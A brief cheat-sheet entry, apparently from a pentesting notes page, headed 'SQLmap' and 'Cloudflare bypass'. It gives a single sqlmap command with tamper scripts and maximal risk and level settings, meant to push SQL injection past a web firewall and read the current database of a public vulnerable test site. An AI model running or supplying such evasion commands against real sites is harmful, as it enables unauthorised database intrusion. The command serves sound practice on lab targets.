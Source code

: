 <h1>SQLmap</h1>

### Cloudflare bypass
```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1*" --batch --random-agent --risk=3 --level=5 --current-db --tamper=space2comment,between,randomcase --no-cast
```
